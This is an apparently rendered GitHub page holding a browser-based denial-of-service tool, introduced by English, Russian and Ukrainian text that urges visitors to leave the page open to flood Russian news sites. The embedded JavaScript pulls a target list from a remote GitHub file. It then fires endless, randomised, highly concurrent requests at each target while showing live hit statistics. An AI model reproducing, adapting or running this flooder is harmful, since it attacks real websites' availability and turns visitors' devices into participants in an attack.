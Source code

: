 | English version | Русская версия | Українська версія |
| --------------- | -------------- | ----------------- |
| The "official" news in the Russian Federation is mostly fake and we believe it is better to shut them down and let people switch to trustful news. Please, just open this page and let it be open on your devices. It will flood the Russian propaganda websites and pose a huge load on their infrastructure. Your browser will be slow. It's ok, don't worry and keep it run. A small contribution from each of us will save Ukraine 🙏 | «Официальные» новости в РФ полны пропаганды и транслируют лживую информацию о событиях на Украине. Мы считаем, что лучше их закрыть и позволить людям переключиться на достоверные новости. Пожалуйста, откройте эту страницу на ваших устройствах. Это зальёт российские пропагандистские сайты запросами и создаст огромную нагрузку на их инфраструктуру. Ваш браузер будет работать медленно. Все в порядке, не волнуйтесь и держите его открытым. Небольшой вклад каждого из нас спасет Украину 🙏 | «Офіційні» новини в РФ сповнені пропаганди та транслюють брехливу інформацію про події в Україні. Ми вважаємо, що краще їх закрити та дозволити людям переключитися на достовірні новини. Будь ласка, відкрийте цю сторінку на вашому пристрої. Це закидає російські пропагандистські сайти запитами та створить величезне навантаження на їхню інфраструктуру. Ваш браузер працюватиме повільно. Все гаразд, не хвилюйтеся та тримайте його відкритим. Невеликий внесок кожного з нас врятує Україну 🙏 |

<body>
    <div id="description"></div>
    <div id="stats"></div>
    <script>
        const ERROR_SYMBOL = "❌";
        const SUCCESS_SYMBOL = "✔️"
        const NO_RESPONSE_SYMBOL = "☠️";
        let targetsURL = 'https://raw.githubusercontent.com/anondevua/anondevua.github.io/main/ddos/targets.txt';
        const updateInterval = 500;
        const fetchTimeout = 1000;
        const CONCURRENCY_LIMIT = 1000;
        const RESULTS_NUM=10
        var targetStats = {}
        var statsEl = document.getElementById('stats');
        function printStats() {
            for (var [target, stats] of Object.entries(targetStats)) {
                stats.last_responses = stats.last_responses.slice(-RESULTS_NUM)
            }
            var table_body = Object.entries(targetStats).map(
                ([target, { number_of_requests, number_of_errored_responses, last_responses }]) => 
                '<tr style="background-color:' + 
                    (last_responses.includes(ERROR_SYMBOL) ? '#FF4500' : 
                        last_responses.includes(SUCCESS_SYMBOL) ? '#3CB371' : '#FFEFD5') + 
                '"><td>' + target + 
                '</td><td>' + number_of_requests + 
                '</td><td>' + number_of_errored_responses + 
                '</td><td>' + last_responses.join('') + 
                '</td></tr>'
            ).join('')
            statsEl.innerHTML = '<table width="100%"><thead><tr><th>URL</th><th>Number of Requests</th><th>Number of Errors</th><th>Responses</th></tr></thead><tbody>' + table_body + '</tbody></table>'
        }
        setInterval(printStats, updateInterval);
        var queue = []
        async function fetchWithTimeout(resource, options) {
            const controller = new AbortController();
            const id = setTimeout(() => controller.abort(), options.timeout);
            return fetch(resource, {
                method: 'GET',
                mode: 'no-cors',
                signal: controller.signal
            }).then((response) => {
                clearTimeout(id);
                return response;
            }).catch((error) => {
                clearTimeout(id);
                throw error;
            });
        }
        async function flood(target) {
            for (var i = 0; ; ++i) {
                if (queue.length > CONCURRENCY_LIMIT) {
                    await queue.shift()
                }
                rand = i % 3 === 0 ? '' : ('?' + Math.random() * 1000)
                queue.push(
                    fetchWithTimeout(target + rand, { timeout: fetchTimeout })
                        .catch((error) => {
                            if (error.code === 20 /* ABORT */) {
                                return;
                            }
                            targetStats[target].number_of_errored_responses++;
                            targetStats[target].last_responses.push(ERROR_SYMBOL);
                        })
                        .then((response) => {
                            if (response) {
                                if (!response.ok) {
                                    targetStats[target].number_of_errored_responses++;
                                    targetStats[target].last_responses.push(NO_RESPONSE_SYMBOL);
                                }
                            }
                            targetStats[target].last_responses.push(SUCCESS_SYMBOL);
                            targetStats[target].number_of_requests++;
                        })
                )
            }
        }
        fetch(targetsURL).then((r) => {
            r.text().then((d) => {
                let targets = d.split('\n');
                targets.forEach((target) => {
                    targetStats[target] = {
                        number_of_requests: 0,
                        number_of_errored_responses: 0,
                        last_responses: []
                    }
                })
                targets.map(flood)
            })
        })
    </script>
</body>